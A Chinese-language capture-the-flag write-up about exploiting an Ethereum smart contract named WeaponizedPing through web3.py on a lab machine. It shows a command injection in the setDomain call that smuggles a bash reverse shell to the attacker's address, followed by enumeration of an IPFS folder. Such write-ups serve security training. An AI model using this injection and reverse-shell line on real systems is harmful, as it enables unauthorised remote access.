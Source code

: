 WeaponizedPing.json 以 JSON 格式保存智能合约的配置文件，而 address.txt 是地址值，以唯一地标识由计算机程序生成的合约，可以在其中获取或设置存储数据...

基于源代码的功能及其名称 WeaponizedPing，它可能是 ping 服务，也可能不是 ping 服务，用于测试域或 IP 地址是否可以访问，试试...

```
https://solidity.readthedocs.io/en/v0.4.24/contracts.html
https://www.dappuniversity.com/articles/web3-py-intro
```

google 很多文章都讲解了区域链和以太坊等知识... 这两篇文章很好讲解了 web3 技术和以太坊解释...

```
http://remix.ethereum.org/#optimize=false&evmVersion=null&appVersion=0.7.7&version=soljson-v0.5.1+commit.c8a2cb62.js
```

这是以太坊的浏览页面，里面也可以测试...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7ryXkuuSbCiczlyyWkHW4Rq4mnoHz1SEckyxW0PNnyyvh8JwZInBXqdQ/640?wx_fmt=png)

```
apt-get install python3-venv
python3 -m venv venv
. venv/bin/activate
pip install web3
```

先安装好 web3...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR781T8v9BNtRvAEf7icOEvnODBjl4pO8Aqcp2vObNGpcykkW3v8aN1Yew/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7XV3MiaFX9hUGWacmYAQnHHMa6olP6jXhgHibx9FzH4AyD8icSyKsfsoOA/640?wx_fmt=png)

```
tcpdump -i tun0 -n
contract.functions.getDomain("10.10.14.51").transact()
```

测试，我设置 tcpdump 为侦听 tun0 任何 ICMP 流量，在另一个终端中，运行了 ping 命令... 成功的，那下一步插入 shell 即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7Xg113yicg7zvmZMicxd3ktz0a4EevEjp472bP0LPggRhglSoL1L2Ccaw/640?wx_fmt=png)

```
contract.functions.setDomain("10.10.14.51; bash -c 'bash -i >& /dev/tcp/10.10.14.51/6666 0>&1'").transact()
```

插入简单的 shell，获得了 administrator 用户的外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR7GcLOOzuibwtuKQVwbLZryGAjUwDLU4BGAnHcrNv8dKCPweWU2rWARFQ/640?wx_fmt=png)

发现了 ipfs，.ipfs 管理员主目录中还有一个文件夹...

google 解释到 InterPlentary 文件系统或 IPFS 是一种点对点的分布式文件系统协议，它可以将其他人的计算机用作云存储...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNqQROFsxwcwn19F3lzZeR78EYB5wzhBFSSqxPaIds9eTsKrdJqJlfZxBW58Qexq30wRW2RcERS0w/640?wx_fmt=png)

```
grep -r bobby .
```
